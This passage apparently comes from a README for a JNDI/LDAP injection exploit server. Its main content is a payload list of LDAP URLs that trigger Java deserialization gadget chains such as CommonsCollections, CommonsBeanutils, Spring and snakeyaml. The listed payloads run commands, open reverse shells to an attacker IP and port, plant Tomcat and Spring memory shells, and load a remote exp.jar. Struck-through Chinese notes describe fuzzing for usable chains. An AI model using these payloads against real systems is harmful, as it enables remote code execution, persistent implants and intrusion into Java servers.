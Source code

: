 ```shell
   ldap://0.0.0.0:1389/basic/[cmd]
   ldap://0.0.0.0:1389/EL/[cmd]
   ldap://0.0.0.0:1389/CommonsBeanutils1/base64/[base64_encoded_cmd]
   ldap://0.0.0.0:1389/CommonsBeanutils183NOCC/ReverseShell/[ip]/[port]
   ldap://0.0.0.0:1389/CommonsBeanutils192NOCC/ReverseShell2/[ip]/[port]
   ldap://0.0.0.0:1389/CommonsCollections1/memshell/[memshellType]
   ldap://0.0.0.0:1389/CommonsCollections2/memshell/FILE:data/exp.class
   ldap://0.0.0.0:1389/CommonsCollections3/memshell/SpringInterceptorMemShell
   ldap://0.0.0.0:1389/CommonsCollections4/memshell/TomcatCmdEcho
   ldap://0.0.0.0:1389/CommonsCollections5/memshell/TomcatFilterMemShellFromThread
   ldap://0.0.0.0:1389/CommonsCollections6/memshell/TomcatFilterMemShellFromJMX
   ldap://0.0.0.0:1389/CommonsCollections7/memshell/TomcatListenerMemShellFromThread
   ldap://0.0.0.0:1389/CommonsCollectionsK1/memshell/TomcatListenerMemShellFromJMX
   ldap://0.0.0.0:1389/CommonsCollectionsK2/memshell/TomcatListenerNeoRegFromThread
   ldap://0.0.0.0:1389/CommonsCollectionsK3/memshell/TomcatServletMemShellFromThread
   ldap://0.0.0.0:1389/CommonsCollectionsK4/memshell/TomcatServletMemShellFromJMX
   ldap://0.0.0.0:1389/C3P0/http://127.0.0.1:8080:Exploit
   ldap://0.0.0.0:1389/Clojure/[cmd]
   ldap://0.0.0.0:1389/BeanShell1/[cmd]
   ldap://0.0.0.0:1389/JSON1/[cmd]
   ldap://0.0.0.0:1389/Spring1/[cmd]
   ldap://0.0.0.0:1389/Spring2/[cmd]
   ldap://0.0.0.0:1389/Hibernate1/[cmd]
   ldap://0.0.0.0:1389/Myfaces1/[cmd]
   ldap://0.0.0.0:1389/MozillaRhino1/[cmd]
   ldap://0.0.0.0:1389/rome/[cmd]
   ldap://0.0.0.0:1389/groovy1/[cmd]
   ldap://0.0.0.0:1389/Vaadin1/[cmd]
   ldap://0.0.0.0:1389/snakeyaml//http://127.0.0.1:8080/exp.jar
{------The following methods are supported memshell[以下方法不支持内存马]-------------------}
   ldap://0.0.0.0:1389/groovyBytomcat/[cmd]
   ldap://0.0.0.0:1389/XStream/[cmd]
   ldap://0.0.0.0:1389/mvel/[cmd]
   ldap://0.0.0.0:1389/BeanShell2/[cmd]
   ldap://0.0.0.0:1389/tomcat_dbcp1_RCE/[cmd]
   ldap://0.0.0.0:1389/tomcat_dbcp2_RCE/[cmd]
   ldap://0.0.0.0:1389/commons_dbcp1_RCE/[cmd]
   ldap://0.0.0.0:1389/commons_dbcp2_RCE/[cmd]
   ldap://0.0.0.0:1389/druidjdbc/[cmd]
   ldap://0.0.0.0:1389/tomcatjdbc/[cmd]

    -----------------------------------------------------------------------------------------


```


~~由于可利用的链较多，各个利用链都有需要的依赖包，所以设计使用比较笨的方法进行fuzz，尽可能判断出可以利用的利用链。
本模块利用tomcat中的`org.apache.naming.factory.BeanFactory`和JDK自带的MLET类进行fuzz。~~

~~**缺点：**~~
